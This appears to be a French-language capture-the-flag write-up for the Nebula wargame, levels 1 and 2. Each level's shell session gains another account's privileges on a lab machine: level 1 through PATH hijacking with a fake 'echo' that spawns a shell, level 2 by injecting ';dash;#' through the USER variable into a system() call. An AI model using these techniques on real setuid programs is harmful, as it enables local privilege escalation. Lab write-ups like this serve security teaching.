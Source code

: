 On a un binaire qui semble simple et doit lancer via `system` la commande `/usr/bin/env echo and now what?`

Ca reste du bash et on peut interférer dessus en mettant un exécutable `echo` à nous en priorité dans le PATH.

```shellsession
level01@nebula:/home/flag01$ cd /tmp/
level01@nebula:/tmp$ id
uid=1002(level01) gid=1002(level01) groups=1002(level01)
level01@nebula:/tmp$ cat > echo
#!/bin/bash
dash
^C
level01@nebula:/tmp$ PATH=/tmp:$PATH /home/flag01/flag01
$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
$ getflag
You have successfully executed getflag on a target account
```

## Level 2

On a pour ce binaire un `getenv`, un `asprint` et un nom de variable `USER`...

```shellsession
level02@nebula:/home/flag02$ strings flag02 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setresgid
asprintf
getenv
setresuid
system
getegid
geteuid
__libc_start_main
GLIBC_2.0
PTRhP
QVh4
UWVS
[^_]
USER
/bin/echo %s is cool
about to call system("%s")
;*2$"
```

On peut ainsi injecter des commandes dans la chaine passée à `system` :

```shellsession
level02@nebula:/home/flag02$ USER=";dash;#" ./flag02
about to call system("/bin/echo ;dash;# is cool")

$ id
uid=997(flag02) gid=1003(level02) groups=997(flag02),1003(level02)
$ getflag
You have successfully executed getflag on a target account
```
